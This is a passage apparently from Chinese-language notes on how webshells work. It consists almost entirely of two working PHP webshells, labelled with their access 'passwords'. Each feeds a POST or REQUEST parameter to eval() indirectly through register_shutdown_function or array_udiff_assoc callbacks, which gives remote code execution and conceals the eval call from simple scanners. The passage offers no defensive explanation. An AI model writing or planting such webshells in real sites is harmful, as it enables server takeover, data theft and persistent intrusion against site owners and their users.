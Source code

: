 #### 3.php

```php
# password : cmd
```

```php
<?php
    function test($a){
    	@eval("$a");
	}
	register_shutdown_function(test,$_POST['cmd']);
?>
```

![](webshell原理.assets/3.png)

#### 4.php

```php
# passwd: h
```

```php
<?php
    function test($a){
		@eval($a);
	}
	array_udiff_assoc(array($_REQUEST['h']),array(1),"test");
?>
```
